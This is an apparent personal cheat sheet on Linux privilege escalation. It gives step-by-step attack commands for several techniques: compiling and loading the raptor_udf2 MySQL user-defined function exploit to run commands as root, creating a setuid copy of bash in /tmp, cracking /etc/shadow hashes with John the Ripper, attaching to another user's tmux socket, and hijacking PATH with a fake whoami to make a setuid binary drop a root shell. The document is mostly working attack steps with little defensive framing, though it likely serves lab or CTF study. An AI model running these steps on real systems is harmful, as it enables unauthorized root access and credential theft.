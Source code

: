 # Linux Privilege Escalation

Tags :

## Contents
[Mysql Service as root](#MySQL-Service-as-root)
[Hash Cracking](#Hash-Cracking)

## MySQL Service as root

if mysql service is running as root and we have root credentials then we can execute commands via **User-DefinedFunctions**

this exploit works for mysql 4.x/5.0
Download [here](https://www.exploit-db.com/download/1518)
save it as raptor_udf2.c 

Now Compile into object and sharedobjects
```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

then connect to mysql 
in that we create a new table and load this sharedobject into that table
we then copy contents into original raptor_udf2.so file

```bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

then we can execute commands as arguments to our function
```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

now we have copied bash into tmp and added s bit on
so we can run that as root by default
```
/tmp/rootbash -p
```


## Hash Cracking

when user set weak password , it can be cracked with johntheripper
password hashes are found in **/etc/shadow** file 
this file contents are generally cannot be readable by any user
if incase normal user can read this file then we can try to bruteforce hashes
copy hash into a file
```
./john --format=sha512crypt -w=rockyou.txt hashfile
```
if the password is in rockyou.txt you will get password


## Tmux Socket Sessions

tmux can be left open by root user or any other user
using ps command we can verify on which socket tmux is running

```
ps -aux | grep tmux
tmux -S /tmp/socket
```
you will get a tmux session


## VNC Sessions

## PATH Variable Manipulation

we have binary and it executes another binary but it doesnot uses absolutepath it only uses relative path
in that case we can write fake binary in that directory
if the directory is not writable we can create fake binary in /tmp and can change PATH variable

here we have binary and its source code
if we dont have source code , we can apply strings on that binary
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");
    char user[80];
    fgets(user, 80, f);
    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());
    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

```

we can see popen function and whoami binary is not full path 
popen function executes the binary specified and takes that binary's output into filestream
and script checks if we are tom user then it drops root shell
let's create a binary in /tmp named whoami

```bash
touch /tmp/whoami
echo "echo tom" > /tmp/whoami
chmod +x /tmp/whoami
```

now we need to change PATH variable because by default rootshell binary takes from /bin

```bash
export PATH=/tmp:$PATH
```

now run the rootshell binary and we get root shell